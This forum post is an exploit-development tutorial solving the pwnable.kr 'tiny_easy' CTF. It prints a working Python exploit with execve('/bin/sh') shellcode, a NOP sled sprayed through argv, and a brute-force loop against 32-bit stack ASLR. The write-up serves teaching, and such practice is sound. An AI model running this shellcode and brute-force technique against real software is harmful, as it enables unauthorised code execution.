

The Magic in Hacking
While wandering around the various amazing topics in this forum, I noticed a lack of one of the subjects I enjoy the most - exploit development (last post was more than a month ago).
I decided to write my own post about the subject which will also be my first post in this forum.
What we will go over in this article:
My experience in exploit development
Go over a CTF from pwnable.kr step by step as we solve it.
Explain different tools i use for and how i implemented them to solve this challenge
Recommended Pre-requisites:
-
Basic Linux understanding
-
X86 assembly knowledge
-
Knowledge of how the stack works
-
Basic C language
-
understanding of Basic buffer overflow exploits
-
Basic development in python
A Song of Bytes and Shells
Ever since I was a kid I was intrigued with exploits. when I was around 16 and started developing malware but i always felt that while malware was something i could understand and learn how to do well, exploits were always something of a mystery to me . I remember once, when i at home with my older brother who was much more knowledgeable than me at the time and I asked him for the first time what exploits were after I heard about that term so many times.
He said to me: “exploits are where magic happens in hacking”
Ever since then many winters have passed, the boy i was became a man and with it i learned more and more about the subject. I started working professionally in the field of exploit research and developed many exploits and shellcode galleries of my own. I realized how exploits are an artform of their own, they require the highest level of professionalism because a lot of the time you need a combination of various fields
(for example: C language, assembly, understanding of the heap and stack, python for development the exploit) in order to make an exploit and that is just the tip of iceberg.
This can be very daunting for a someone who wants to enter the field of exploit development as it is a zero sum game.
As Cersei Lannister described accurately :
“When you play the game of Exploits, you pwn or you crash. There is no middle ground.”
I hope in this article that i can help ease people in to the subject and tools using
one of my favorite CTF challenge.
Don’t judge a binary by its size
Today we will analyze a CTF from one of my most favourite CTF websites - pwnable.kr
pwnable.kr is an amazing site for anyone wishing to try out hard exploitation and reverse engineering challenges.
I found all kinds of exploit challenges there, from memory corruptions to command injections and up to kernel write exploits and race conditions.
Highly recommend you all to check it out.
For this article I decided to go over the tiny_easy challenge.


Let’s SSH inside!
ssh [[email protected]](mailto:[email protected]) -p2222
(For windows users i highly recommend mobaxterm, it’s an easy software you can use to handle ssh sessions and download software easily)
Inside the ssh, we run “ls” and find only a binary and our flag file which we can’t read as we don’t have any permissions

Let’s download the binary and perform some checks on it:
well start off with the “file” command.
This command gives us details about the binary including it’s architecture, bitness(x64 vs x32) and other nice details
We can see from this output that the file is a 32-bit ELF file for the x86 architecture and it’s statically linked.
But wait…

Lets try to run the binary and see what happens :


As seen by the fact that the binary has a corrupted header and crashes on execution, we can understand that we may be in for a bit different binary than what we usually see.
Lets open the binary in ida and go over the code

Wow! Look at that! this has to be the smallest CTF i’ve ever looked at 
The whole program has only 4 instructions.
We perform two pops from the stack. Takes the value from where edx points to and then jumps to it.
But wait… there aren’t any calls in this program so which values are poped from the stack?
Let’s use gdb and check it out!
In this article i used gdb with the peda extension that makes debugging much easier.

Having a look at the stack, we see that eax will receive the value 1 and edx will receive a pointer to the string
“/home/user/CTFs/Pwnables/tiny_easy/tiny_easy”
That is the path to our binary!
If we continue stepping until the call to edx, we see the reason why we received our segfault earlier

The program attempts to jump to the address 0x6d6f682f which is value for the string “/hom”. A part of the path to our binary
Let’s try to run our program with the parameters test1 test2 test3
We can do this by running the command in gdb
run test1 test2 test3

As we can see, the stack has changed, now we have our parameters in the stack and the value at the top of the stack has changed from 0x1 to 0x4.
Remember in the C language, how the main function receives input?
Int main(int argc, char * argv [], char * envp)
argv[0] in main always points to the path of the current binary and then argv[1]
argv[2] and so forth will contain our arguments.
In order to successfully jump where we want, we need to have control over argv[0] because the program will jump to the value in it.
How can we control over argv[0] if it isn’t one of our parameters?
Introducing pwnlib!
Pwnlib is a python library that allows us to easily communicate with sockets and processes for the sake of pwning them.
The pwnlib.tubes.process allows us to create a process of our own and control it’s different arguments (argv, envp) and so forth.
Just to show you an example of the use of pwnlib, i compiled the following code snippet:
int main(int argc, char * argv[])
{
printf("\nthis is our argv[0] %s\n", argv[0]);
}
We compile and run it and get the following result:

Let’s use pwnlib to manipulate the argv[0] to our own string
from pwnlib.tubes.process import *
argv_program=process(argv=["awdawd"], executable="/home/user/test_argv")
print argv_program.recv()
Now lets run our python program and see what result we received from the test_argv program:

Great!
We now know how to have control over argv0, this means we can jump anywhere we want in the tiny_easy binary.
Our next step is checking what mitigations does this binary have.
Let’s run checksec and see.

RELRO: No RELRO - no RELRO protection here - Not relevant
Stack: No stack canary is found here. Not relevant here but cool
NX: NX disabled - non executable protections is disabled, jackpot!
**PIE: **the code is not position independent - not relevant
Note: By default, ASLR is enabled at stack level
NX protection is a protection which doesn’t allow us to run code only in the code sections of a binary. This means that we can’t jump to code on the stack or heap and run them.
In this example, we can see this binary is compiled without this protection which means we can possibly jump to our code on the stack.
I need to stress this out: checking for these kinds of protections straight in the beginning will save you a lot of time and frustration.
In this example, because we can’t control the return address and NX is disabled then our best bet is to concentrate our effort of finding a way to jump to the stack and execute our shellcode that is stored in one of our parameters.
If on the other hand, NX was enabled then this means that we couldn’t jump to the stack and we needed to find a different way to run our code (ROP Gadgets, ret2libc, and many other methods)
Now that we can control where we can jump,we need to deal with the fact that ASLR is enabled at the stack level.
Let’s try to find an instruction that can allow us to jmp to the stack and thus run our shellcode.
The rest of the bytes in the program are part of the elf header

We can also view these bytes an instructions in IDA using the “C” hotkey

Our best bet for an instruction to jump to is “jmp esp”
This will jump to the stack and from there we may be able to get to our shellcode that is stored in one of the parameters.
I like to perform my searches by hand so i used online disassembling to find what opcodes make up the jmp esp instruction.
If we try to disassemble jmp esp we get:
ff e3
Lets try to search this bytes in IDA using the search->sequence of bytes
And put in ff e3

No result 
I tried searching for the bytes for call esp and didn’t find anything!
Now this is an interesting situation.
We want to jump to our code on the stack but we don’t know the address to jump to because of ASLR.
We tried to find an instruction that allows us to jmp to the stack without knowing it’s address but we didn’t find any.
Another quick idea i tried:
Jmp to an instruction that will allow you to write bytes to code section.
You can use this method to overwrite one of the instructions with the jmp esp opcodes to one of the addresses and then perform a jump to the instruction’s address.
It’s basically like driving a train that builds its tracks while it’s going and i liked the idea of this.
Unfortunately, i checked out the segment permissions to see what are the section permission using view->Open subviews->segments and found our the following
Only the R and X permissions are enabled for the code section
R - read permissions
X - execute permissions
The W (write) permission is disabled.
This means that if we attempt to rewrite an instruction in the code section, we will receive a segfault and the program will crash.
I banged my head on this program for a couple of hours, trying different methods of jumping to instructions but i couldn’t find a way to get to the stack successfully.
What shall a young exploiter do next?
ASLR in 32-bit
I started reading about ASLR implementation on 32bit systems (remember, our binary is 32-bit )
And i found the following explanation:
“For 32-bit, there are 2^32 (4 294 967 296) theoretical addresses, nevertheless, the kernel will allow to control about only half of bits (2^(32/2) = 65 536) for an execution in a virtualized memory”.
This means that the stack size can randomized just up to 65,536 bytes.
If we can can control tens of thousands of shellcode bytes then we might can try to jmp to a constant address on the stack and have a good probability of success
I checked whether it was possible to send lots of parameters with long strings
from pwnlib.tubes.process import *
for i in range(600):
argv.append("a"*1024)
argv_program=process(argv=["awdawd"], executable="/home/user/test_argv")
print argv_program.recv()

We sent in this example, 6014400 bytes to our program and run succesfully
Let’s make a slide!
A NOP slide !

We can send our parameters filled with nops and our shellcode at the end.
That way, we can jump to a random address on the stack and hopefully we will be able to land on one of our nop instructions and we will slide the whole way to our shellcode.
I made the following code that executes the program
With our payload and attempts to jump to a constant address on the stack
0xffb05544
This address was chosen for both reasons:
1.In this program i noticed after many executions with gdb that this address is most of the time in the range of the stack or very close to it
2.we needed an address without any null bytes in it because otherwise we would get
An the following error:
“Inappropriate nulls in argv[0]:”
So i wrote the following code:
import struct
import random
from pwnlib.tubes.process import *
from pwnlib.exception import *
import pwnlib
# Taken from http://shell-storm.org/shellcode/files/shellcode-811.php
# execve('/bin/sh')
EXECV = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
def build_shellcode(address):
"""
Build shellcode
address - address to jump to
"""
args = []
args.append(address)
shellcode = "\x90"*8000 + EXECV
for i in range(120):
args.append(shellcode)
return args
if __name__ == "__main__":
jump_address = struct.pack("I", 0xffb05544)
for i in range(10000000):
try:
prog_args = build_shellcode(jump_address)
print "attempt number: {}".format(i + 1 )
pro = process(argv=prog_args,
env={},
executable="/home/user/CTFs/Pwnables/tiny_easy/tiny_easy")
print "started_running address {}".format(hex(struct.unpack("I",jump_address)[0]))
pro.timeout=0.08
# Send command shell of the process
pro.sendline("echo we_made_it!")
# Recv the result of the command execution
data = pro.recvline()
if data:
print "received data!"
print data
break
except (EOFError, pwnlib.exception.PwnlibException) as e:
print e
This code attempts to run the tiny_easy binary and jump to our shellcode which opens a shell. If we succeed then we will be able to send the command
“echo we_made_it” and see it’s output
Lets try it out

It worked!
It seems that our nop slide did it’s job successfully, now let’s check it out on the CTF server itself.
Notice that we need to change the command we wish to execute from
“echo we_made_it” to “cat /home/tiny_easy/flag” In order to get the flag.
We can upload our script to the server’s tmp directory easily using the “scp” command like this:
scp -P 2222 ./pwn_tiny.py [email protected]:/tmp/pwn_tiny.py

And there is our flag
Conclusions
In this article, we discussed exploit development by using a CTF example,
we learned about how inputs are received by the program from argv and argc.
Finally, saw how ASLR in 32-bit systems is vulnerable due to small randomization ranges and how to utilize this flaw to perform an attack that is statistically very plausible.
I hope you all enjoyed my first post and i’ll see you all next time!
Sources